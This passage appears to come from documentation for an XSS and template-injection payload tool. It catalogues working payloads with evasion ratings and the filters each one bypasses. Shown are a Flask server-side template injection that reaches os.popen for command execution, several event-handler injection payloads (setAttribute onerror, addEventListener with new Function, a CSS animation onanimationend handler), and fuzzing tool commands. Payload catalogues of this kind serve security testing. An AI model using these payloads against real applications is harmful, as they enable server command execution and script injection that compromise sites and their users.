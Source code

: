 #### Python Flask SSTI
```python
{{config.__class__.__init__.__globals__['os'].popen('echo alert(1)').read()}}
```
- **Evasion Level**: 10/10
- **Bypasses**: flask_filters, python_detection, ssti_filters

### 🔧 Usage Examples
```bash
# Test template injection payloads
xss-context /path/to/template.html --format json
python3 tools/test_advanced_categories.py template_injection
```

---

## ⚡ 2. Event Handler Injection

**Category**: `event_handler_injection`  
**Difficulty**: `advanced`  
**Description**: Dynamic event handler injection and manipulation

### 🎯 Target Contexts
- on* attributes (onclick, onmouseover)
- setAttribute abuse
- addEventListener with dynamic functions

### 💀 Key Payloads

#### setAttribute Abuse
```javascript
document.createElement('img').setAttribute('onerror','alert(1)');
```
- **Evasion Level**: 8/10
- **Bypasses**: dom_filters, setAttribute_detection

#### addEventListener Dynamic
```javascript
document.body.addEventListener('click', new Function('alert(1)'));
```
- **Evasion Level**: 9/10
- **Bypasses**: function_detection, event_listener_filters

#### CSS Animation Event
```html
<div style="animation:a 1s" onanimationend=alert(1)>
```
- **Evasion Level**: 8/10
- **Bypasses**: animation_filters, css_event_detection

### 🔧 Usage Examples
```bash
# Test event handler injection
xss-ai-domfuzz --contexts event_handlers --mutations dynamic_events
```

---